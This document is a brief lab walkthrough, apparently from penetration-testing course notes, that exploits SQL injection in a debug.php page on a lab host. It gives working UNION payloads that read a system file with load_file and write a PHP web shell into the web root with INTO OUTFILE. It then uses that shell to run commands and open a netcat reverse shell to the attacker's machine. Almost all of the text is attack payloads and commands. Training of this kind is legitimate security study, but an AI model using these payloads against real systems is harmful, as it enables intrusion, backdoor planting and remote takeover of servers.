

9.4.5.11

# 9.4.5.11
## # 9.4.5.11.1. Exploit the SQL injection along with the MariaDB INTO OUTFILE function to obtain code execution.

Read a file using the load_file function
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')`


Use the *INTO OUTFILE* function to create a malicious PHP file in the server's web root.  `http://192.168.214.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`


We had gotten an error above, but backdoor.php was created anyway. Let's try accessing it. It works!
`http://192.168.214.10/backdoor.php?cmd=ipconfig`



## # 9.4.5.11.2. Turn the simple code execution into a full shell.

Open a netcat listener on Kali
```plaintext
kali@kali:~$ sudo nc -lvnp 5678
listening on [any] 5678 ...
```

Create a netcat client on the Windows machine
`http://192.168.214.10/backdoor.php?cmd=nc -nv 192.168.119.214 5678 -e cmd.exe`


Notice we now have a shell on the Kali machine


